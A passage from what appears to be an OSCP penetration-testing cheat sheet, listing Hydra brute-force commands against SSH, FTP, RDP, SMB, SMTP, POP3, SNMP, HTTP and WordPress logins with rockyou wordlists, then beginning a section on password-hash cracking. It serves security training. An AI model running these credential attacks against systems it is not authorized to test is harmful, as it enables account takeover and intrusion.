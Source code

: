         *   Hydra brute force against SNMP

            `hydra -P password-file.txt -v $ip snmp`

        *   Hydra FTP known user and rockyou password list

            `hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp`

        *   Hydra SSH using list of users and passwords

            `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`

        *   Hydra SSH using a known password and a username list

            `hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh`

        *   Hydra SSH Against Known username on port 22

            `hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt`

        *   Hydra POP3 Brute Force

            `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V`

        *   Hydra SMTP Brute Force

            `hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V`

        *   Hydra attack http get 401 login with a dictionary

            `hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin`

        *   Hydra attack Windows Remote Desktop with rockyou

            `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip`

        *   Hydra brute force SMB user with rockyou:

            `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb`

        *   Hydra brute force a Wordpress admin login

            `hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`

*   ## [](https://x89k.tk/infosec/2018/11/03/oscpsurvivalguide.html#password-hash-attacks)Password Hash Attacks

    *   Online Password Cracking  
        [_https://crackstation.net/_](http://web.archive.org/web/20171113221652/https://crackstation.net/) [_http://finder.insidepro.com/_](http://web.archive.org/web/20171113221652/http://finder.insidepro.com/)

    *   Hashcat Needed to install new drivers to get my GPU Cracking to work on the Kali linux VM and I also had to use the --force parameter.

    `apt-get install libhwloc-dev ocl-icd-dev ocl-icd-opencl-dev`

    and

    `apt-get install pocl-opencl-icd`

    Cracking Linux Hashes - /etc/shadow file
